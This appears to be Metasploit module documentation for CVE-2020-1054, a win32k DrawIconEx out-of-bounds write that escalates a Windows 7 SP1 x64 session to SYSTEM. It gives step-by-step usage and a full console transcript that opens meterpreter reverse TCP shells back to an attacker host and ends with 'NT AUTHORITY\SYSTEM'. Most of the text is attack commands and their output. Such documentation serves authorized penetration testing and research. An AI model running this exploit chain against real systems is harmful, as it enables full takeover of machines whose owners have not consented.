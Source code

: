 ## Vulnerable Application

This module exploits CVE-2020-1054, an out of bounds write reachable from DrawIconEx
within win32k. The out of bounds write can be used to overwrite the pvbits of a
SURFOBJ. By utilizing this vulnerability to execute controlled writes to kernel
memory, an attacker can gain arbitrary code execution as the SYSTEM user.

This module has been tested against a fully updated Windows 7 x64 SP1. Offsets
within the exploit code may need to be adjusted to work with other versions of
Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2020_1054_drawiconex_lpe`
1. `set session <session>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.24542

```
$ msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.13.37; set lport 4444; set ExitOnSession false; run -j"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
lhost => 192.168.13.37
lport => 4444
ExitOnSession => false
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.13.37:4444
msf exploit(multi/handler) > [*] Sending stage (200262 bytes) to 192.168.13.106
[*] Meterpreter session 1 opened (192.168.13.37:4444 -> 192.168.13.106:49216) at 2020-11-26 13:56:39 +0000

msf exploit(multi/handler) > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set LHOST 192.168.13.37
LHOST => 192.168.13.37
msf exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set LPORT 5555
LPORT => 5555
msf exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set SESSION -1
SESSION => -1
msf exploit(windows/local/cve_2020_1054_drawiconex_lpe) > run

[*] Started reverse TCP handler on 192.168.13.37:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing exploit...
[*] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.13.106
[*] Meterpreter session 2 opened (192.168.13.37:5555 -> 192.168.13.106:49217) at 2020-11-26 13:57:08 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

